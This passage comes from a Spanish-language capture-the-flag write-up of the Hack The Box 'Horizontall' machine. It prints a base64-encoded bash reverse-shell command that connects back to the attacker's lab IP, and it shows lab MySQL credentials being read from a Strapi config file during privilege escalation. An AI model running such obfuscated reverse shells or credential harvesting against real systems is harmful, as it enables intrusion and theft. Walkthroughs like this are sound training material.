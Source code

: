 * Y ahora simplemente en la fake-shell le decimos que el sistema tome esa cadena en `base64`, la decodee y la interprete, al interpretarla generara la petición contra nuestro servidor enviando una `/bin/bash` (una Shell):

  ```bash
  $> echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC43OC80NDMzIDA+JjEK | base64 -d | bash
  ```

La ejecutamos...

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/horizontall/374bash_strapiRevSH.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

VAMOOOOOOOOOOOOO, tamos dentrowowowowowoowjsadlkfjñas...

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/horizontall/374google_gif_letsFUCKIN6go.gif" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 50%;"/>

Antes de seguir, démosle un formato más lindo a nuestra terminal, pero además de lindo algo que no nos genere problemas a futuro, así podremos ejecutar `CTRL^C` sin problema, tener histórico de los comandos y así mismo movernos entre ellos. Esto se llama hacer un **tratamiento de la TTY**:

* [https://lanzt.gitbook.io/cheatsheet-pentest/tty](https://lanzt.gitbook.io/cheatsheet-pentest/tty)

---

# Escalada de privilegios [#](#escalada-de-privilegios) {#escalada-de-privilegios}

Enumerando el sistema encontramos un archivo con credenciales:

```json
strapi@horizontall:~$ cat /opt/strapi/myapi/config/environments/development/database.json 
{
  "defaultConnection": "default",
  "connections": {
    "default": {
      "connector": "strapi-hook-bookshelf",
      "settings": {
        "client": "mysql",
        "database": "strapi",
        "host": "127.0.0.1",
        "port": 3306,
        "username": "developer",
        "password": "#J!:F9Zt2u"
      },
      "options": {}
    }
  }
}
```

Son del usuario `developer` del gestor de base de datos `MySQL`, si las probamos son válidas, pero recorriendo las tablas no encontramos nada interesante, intentando reutilización de credenciales tampoco llegamos a ningún lado, así que sigamos enumerando...
